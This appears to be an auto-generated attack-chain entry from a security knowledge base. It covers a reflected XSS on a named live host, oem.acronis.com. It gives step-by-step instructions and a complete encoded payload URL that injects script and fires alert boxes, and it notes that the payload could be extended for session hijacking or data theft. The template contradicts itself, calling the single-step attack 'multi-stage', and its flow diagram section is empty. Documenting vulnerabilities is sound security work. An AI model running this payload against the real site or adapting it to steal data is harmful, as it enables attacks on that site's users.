

---
tags:
  - xss
  - reflected-xss
  - javascript-execution
  - client-side-attack
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-via-URL-Payload]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:56:03.772Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the test
  page of oem.acronis.com to execute arbitrary JavaScript in the victim's
  browser.
skill_level: basic
impact_level: high
id: 98d5836b-3923-41b9-8452-99aa212e7eb9
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS in Acronis OEM Test Page for Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Basic |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Web platform
- Access to https://oem.acronis.com/test/testenv.html/
- No specific ports or services required beyond HTTP/HTTPS

### Initial Access Requirements

- Public internet access to the target URL
- No credentials needed
- Victim must click or be tricked into navigating to the malicious URL

## Detailed Attack Procedures

### Step 1: Craft and Navigate to Malicious URL
procedure: [[procedures/Exploit-Reflected-XSS-via-URL-Payload]]

**Objective**: Inject and execute arbitrary JavaScript code via a reflected XSS vulnerability in the URL path of the test page.

**Instructions**: Construct the vulnerable URL by appending the encoded XSS payload to the base endpoint. Open a web browser and navigate to the full URL. The payload will reflect unsanitized input, injecting HTML elements and executing JavaScript, such as displaying alerts to confirm exploitation.

The base URL is https://oem.acronis.com/test/testenv.html/, and the payload is %3C/pre%3E%3Cisindex%20type%3Dimage%20src%3D1%20onerror%3Dalert%289166%29%3E%3Cscript%3Ealert(origin)%3C/script%3E.

Full URL example:

```url
https://oem.acronis.com/test/testenv.html/%3C/pre%3E%3Cisindex%20type%3Dimage%20src%3D1%20onerror%3Dalert%289166%29%3E%3Cscript%3Ealert(origin)%3C/script%3E
```

**Expected Output**: The page loads with injected HTML, triggering an alert box showing "9166" and another showing the page origin, confirming JavaScript execution.

**Success Indicators**:
- Alert dialog appears with the number 9166
- Second alert displays the origin URL (e.g., https://oem.acronis.com)
- Browser console shows no errors, but script executes client-side

## Attack Chain Summary

### Key Achievements

1. Successful reflection of user-supplied input without sanitization
2. Arbitrary JavaScript execution in the victim's browser context
3. Potential for session hijacking or data theft via further payload customization

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
